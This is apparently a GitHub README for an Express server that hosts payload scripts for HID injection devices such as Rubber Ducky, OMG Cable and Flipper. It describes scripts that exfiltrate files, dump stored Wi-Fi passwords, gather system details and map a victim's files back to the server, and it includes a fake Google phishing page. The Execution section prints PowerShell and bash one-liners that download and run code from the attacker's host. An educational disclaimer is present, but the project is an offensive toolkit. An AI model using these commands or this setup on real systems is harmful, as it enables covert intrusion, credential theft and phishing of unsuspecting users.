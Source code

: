 # MacServerFace

Do you have an HID injection device? OMG Cable, ALOA, BADUsb, or Flipper 0? Then this server is for you. Instead of making custom scripts on each device or even your only device, use this server to host your own scripts and be able to receive data from the client running the scripts. For your HID or Ducky scripts change one word and have access to all scripts hosted on the server. I have a few scripts to get you going and a fake login page(for fun). Mac and Linux scripts coming soon.

## Disclaimer

This project is for educational purposes and not to be used maliciously. This is just for me to get a basic understanding of hosting and serving different file types and understanding the power of HID injection.

## Table of Contents

- [Disclaimer](#disclaimer)
- [Description](#description)
- [Installation](#installation)
- [Setup](#Setup)
- [Scripts](#Scripts)  
- [Execution](#Execution)

## Description

This is a simple Express Server that allows for scripts to be served and uploads sent to the server. It also allows you to access a collection of Powershell, Bash, Ducky, HID scripts and a fake pishing page. This server includes scripts to launch other scripts or webpages from the server. Making it so that you can change one line of code in your script and give your HID device access to all the scripts on the server.

## Installation

in the directory you want to store the project run the command:

```bash
git clone https://github.com/Pmacdon15/MacServerFace
```

Next we will need to install the Node Modules, I will list the commands here:

```bash
cd MacServerFace
```

```bash
npm install
```

## Setup

For easy setup download and install Python if you haven't already.

### On Windows type this in to your browsers URL bar

```url
https://www.python.org/downloads/
```

or

### On Linux in the terminal

```bash
sudo apt-get update
sudo apt-get install python3
```

Then after navigating to the project folder in the terminal run: 

(on Windows)
```bash
py setup.py
```

(on Mac or linux)
```bash
python3 setup.py
```

This will allow you to enter a new Ip Address or localhost and automatically change all the Powershell, Ducky, HID scripts to reflect the entered Ip address.

Replace pickAServerName  with a you choice.

I recommend using Pm2 so that you can do other things on your terminal while running the server, like checking the capturedInfo folder after running a script on a client's computer.

Remember to apply appropriate port forwarding if accessing the server from outside the network.

## Scripts

### setup.py 

This script will update the url of all scripts, so that you can easily set the Ip address of your server. 

### exfiltrateFile(s).ps1

This Script will transfer file(s) With specified path and sends them to the server's uploads directory.

### infoGather.ps1

This script gathers computer name / username , Ip address, Os version and current Wlan profile and password. Then it makes a temporary file and sends it to the server, then deletes the file.

### launchVoice.ps1

This script simply plays a computer voice over the client's computer, It can be updated to say anything you wish.

### mapFiles.ps1

This script list all files and directories on the clients computer in the capturedInfo directory. Files are listed and saved to a file then to the server and deleted from the temporary folder.

### openWebPageFull.ps1

This script will open a weg page in MS Edge and full screen it. Useful for using the built in fake pishing pages.

### qrCode.ps1

This Downloads a Qr Code to the clients computer and opens it for them to see.

### ransom.ps1

This script is a bit of a joke, it plays a computer voice stating your files have been encrypted. Then a progress bar is displayed, then and error message, after clicking ok the computer will go to the lock screen and no harm will have been done.

### rickRoll.ps1

Fairly self explanatory opens Microsoft Edge full screens the video and it should play a rick roll.

### rickRollMac.sh

Rick Roll for Mac although I have not had time to test it yet.

### selfDestruct.ps1

This script is a prank with a count down and progress bar. Nothing happens the bar fills up and the program exits.

### wifiDump.ps1 

This script dumps all Wlan profiles on a clients computer with a clear Key and sends them to the server.

### wifiDumpMac.sh

This should dump all the Wlan profiles on the client's computer although I have not had time to test it yet.

## Execution

To start the server 

```bash
node server.js
```

or

### Installing pm2 is optional

(on linux)
```bash
npm install -g pm2
```

or if you installed pm2

```bash
pm2 start server.js --name pickAServerName
```

After the server is running you can manually call a script make sure ipaddress and scriptname are updated(ipaddress can be updated automatically with setup.py), then enter the above code in to PowerShell. The below code can be found in the powerShell folder file named launchPsScript.ps1

```powershell
Invoke-Expression ([System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://<ipaddress>:3002/scripts/<scriptname>.ps1" -UseBasicParsing).Content))
```
or

```Bash
bash -c "$(curl -fsSL http://<ipaddress>:3002/<scriptName.sh>)"
```

Other wise you can use an HID injection device and uses one of the trigger scripts I have provided:

> [!NOTE]
> Make sure to run setup.py to update the server Ip address, as well as choosing a script name.

### DuckyScript 

1. launchPsScript.txt
2. launchPsScriptAdmin.txt

### HIDScript(ALOA)

1. launchPsScript.js
2. launchPsScriptAdmin.js

### Phishing site
1. http://<ipaddress>:3002/notGoogle




